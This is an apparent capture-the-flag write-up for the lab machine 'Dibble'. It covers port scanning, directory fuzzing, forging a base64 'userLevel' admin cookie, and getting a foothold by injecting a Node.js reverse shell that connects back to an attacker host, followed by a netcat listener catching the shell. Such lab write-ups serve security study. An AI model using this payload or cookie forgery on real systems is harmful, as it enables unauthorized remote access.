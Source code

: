 ```yaml
---
layout: post
title: PG | Dibble
subtitle: A good tool for making holes with. Careful you don't stick yourself!
---
```


# Nmap Scan Results

~~~shell
Starting Nmap 7.94 ( https://nmap.org ) at 2023-10-26 07:36 UTC
Nmap scan report for 192.168.182.110
Host is up (0.014s latency).
Not shown: 65530 filtered tcp ports (no-response)
PORT      STATE SERVICE VERSION
21/tcp    open  ftp     vsftpd 3.0.3
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_Can't get directory listing: TIMEOUT
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to 192.168.45.228
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 2
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
22/tcp    open  ssh     OpenSSH 8.3 (protocol 2.0)
| ssh-hostkey: 
|   3072 9d:3f:eb:1b:aa:9c:1e:b1:30:9b:23:53:4b:cf:59:75 (RSA)
|   256 cd:dc:05:e6:e3:bb:12:33:f7:09:74:50:12:8a:85:64 (ECDSA)
|_  256 a0:90:1f:50:78:b3:9e:41:2a:7f:5c:6f:4d:0e:a1:fa (ED25519)
80/tcp    open  http    Apache httpd 2.4.46 ((Fedora))
|_http-server-header: Apache/2.4.46 (Fedora)
| http-robots.txt: 22 disallowed entries (15 shown)
| /core/ /profiles/ /README.txt /web.config /admin/ 
| /comment/reply/ /filter/tips /node/add/ /search/ /user/register/ 
| /user/password/ /user/login/ /user/logout/ /index.php/admin/ 
|_/index.php/comment/reply/
|_http-title: Home | Hacking Articles
|_http-generator: Drupal 9 (https://www.drupal.org)
3000/tcp  open  http    Node.js (Express middleware)
|_http-title: Site doesn't have a title (text/html; charset=utf-8).
27017/tcp open  mongodb MongoDB 4.2.9
| mongodb-info: 
|   MongoDB Build info
|     bits = 64
|     ok = 1.0
|     openssl
|       running = OpenSSL 1.0.1e-fips 11 Feb 2013
|       compiled = OpenSSL 1.0.1e-fips 11 Feb 2013
Service Info: OS: Unix

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 239.76 seconds
~~~

# Service Enumeration

## FTP (TCP/21)

The target machine is running an FTP server, after authenticating and exiting passive mode there were no available files on the FTP server.

~~~shell
┌──(kali㉿kali)-[~/Desktop/Dibble]
└─$ ftp anonymous@192.168.182.110
Connected to 192.168.182.110.
220 (vsFTPd 3.0.3)
331 Please specify the password.
Password: 
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> passive
Passive mode: off; fallback to active mode: off.
ftp> ls
~~~

## HTTP (TCP/80)
The target machine is running an Apache web server on port 80 displaying a blog for hacking articles

![Dibble](/assets/img/DibblePG(1).png)

I started by running a FFUF sub-directory scan and identified a long list of web pages including a /user/login page, a search page and a contact page that all take user input.

~~~shell
┌──(kali㉿kali)-[~/Desktop/Dibble]
└─$ ffuf -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-small.txt:FUZZ -u http://192.168.182.110/FUZZ -fs 13655

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://192.168.182.110/FUZZ
 :: Wordlist         : FUZZ: /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-small.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
 :: Filter           : Response size: 13655
________________________________________________

contact                 [Status: 200, Size: 8187, Words: 690, Lines: 138, Duration: 164ms]
search                  [Status: 302, Size: 382, Words: 60, Lines: 12, Duration: 210ms]
themes                  [Status: 301, Size: 238, Words: 14, Lines: 8, Duration: 14ms]
modules                 [Status: 301, Size: 239, Words: 14, Lines: 8, Duration: 12ms]
user                    [Status: 302, Size: 378, Words: 60, Lines: 12, Duration: 101ms]
admin                   [Status: 403, Size: 4306, Words: 414, Lines: 109, Duration: 128ms]
sites                   [Status: 301, Size: 237, Words: 14, Lines: 8, Duration: 11ms]
Search                  [Status: 302, Size: 382, Words: 60, Lines: 12, Duration: 139ms]
Contact                 [Status: 200, Size: 8187, Words: 690, Lines: 138, Duration: 151ms]
core                    [Status: 301, Size: 236, Words: 14, Lines: 8, Duration: 18ms]
profiles                [Status: 301, Size: 240, Words: 14, Lines: 8, Duration: 11ms]
vendor                  [Status: 403, Size: 199, Words: 14, Lines: 8, Duration: 18ms]
User                    [Status: 302, Size: 378, Words: 60, Lines: 12, Duration: 144ms]
Admin                   [Status: 403, Size: 4306, Words: 414, Lines: 109, Duration: 115ms]
batch                   [Status: 403, Size: 4306, Words: 414, Lines: 109, Duration: 499ms]
SEARCH                  [Status: 302, Size: 382, Words: 60, Lines: 12, Duration: 342ms]
CONTACT                 [Status: 200, Size: 8187, Words: 690, Lines: 138, Duration: 1187ms]
~~~

As identified in the nmap scan the target is hosting a MongoDB server, so we can assume that this website may be connected to the database, and therefore can attempt an SQL injection on each parameter, however after attempting SQL injections on all front facing input parameters they seem to be getting sanitized on the back-end.

![Dibble](/assets/img/DibblePG(2).png)

The admin sub-directory is also returning a 403 Access denied page.

## HTTP (TCP/3000)

Port 3000 is also running a webserver using Node.js JavaScript based web application.

Navigating through the website we are able to register a user account via /auth/register, and then log into the user account.

![Dibble](/assets/img/DibblePG(3).png)

After logging in we find a sub-page /logs/all that shows a series of event logs stored by the web server, this can potentially be our foothold if we are able to store a reverse shell and then access the event log to execute it.

![Dibble](/assets/img/DibblePG(4).png)

Under the 'New Event Log' page we then attempt to test the parameters of the website and when trying to'Register a new log event' we are denied

![Dibble](/assets/img/DibblePG(5).png)

In order to perform a new log event we will need to impersonate an admin account, when inspecting the cookies we find a 'userLevel' encoded cookie

![Dibble](/assets/img/DibblePG(6).png)

Running the cookie through the Burp Decoder we identify the value is 'default' which is encoded in base64 then URL

![Dibble](/assets/img/DibblePG(7).png)

We manipulate the value 'default' and replace it with 'admin' base64 encoded to YWRtaW4= and then replace the userLevel value with our new cookie

![Dibble](/assets/img/DibblePG(8).png)

When attempting to create a 'New Event Log' with our new admin userLevel cookie it works!

![Dibble](/assets/img/DibblePG(9).png)

We now need to attempt to upload a reverse shell compatible with Node.js and with the assistance of PayloadAllThings(https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md#nodejs) we have one

~~~shell
(function(){
    var net = require("net"),
        cp = require("child_process"),
        sh = cp.spawn("/bin/sh", []);
    var client = new net.Socket();
    client.connect(4242, "10.0.0.1", function(){
        client.pipe(sh.stdin);
        sh.stdout.pipe(client);
        sh.stderr.pipe(client);
    });
    return /a/; // Prevents the Node.js application from crashing
})();
~~~

We start a netcat listener on port 21
~~~shell
┌──(kali㉿kali)-[~]
└─$ nc -nvlp 21
listening on [any] 21 ...
~~~

Then upload our Node.js reverse shell via Registering a new log event

![Dibble](/assets/img/DibblePG(10).png)

And we recieve our shell, and get our foothold!
~~~shell
┌──(kali㉿kali)-[~]
└─$ nc -nvlp 21
listening on [any] 21 ...
connect to [192.168.45.228] from (UNKNOWN) [192.168.182.110] 42440
whoami
benjamin
~~~
